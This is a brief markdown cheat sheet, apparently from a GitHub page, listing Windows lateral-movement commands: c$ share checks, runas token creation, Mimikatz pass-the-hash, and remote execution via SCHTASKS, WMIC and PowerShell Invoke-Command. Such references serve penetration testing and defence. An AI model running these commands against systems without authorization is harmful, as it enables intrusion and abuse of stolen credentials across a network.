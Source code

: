 # Windows Lateral Movement

```
dir \\host\c$
```

Check to see if your admin on another computer by listing the c$ share

```
net view \\<share>
```

Net command to check remote files

```
runas /user:Domain\(user) something.exe
```

Create a token with creds from command line

```
runas /user:Domain\(user) /netonly something.exe
```

Create a token to pass creds

```
sekurlsa::pth /user:USERNAME /domain:DOMAIN /ntlm:HASH /run:COMMAND
```

Pass the hash with Mimikatz

```
SCHTASKS /Run /S system /U user /P password /I /TN "taskname"
```

Run task immediately on remote system

```
wmic /node:(host) process call create <path to exe>
```

Run exe on remote computer with WMIC

```powershell
Powershell Invoke-Command -ComputerName (host) -ScriptBlock { dir c:\ }
```

WinRM(port 5985) turned off by default(turned on for administration) Run command with Windows remoting
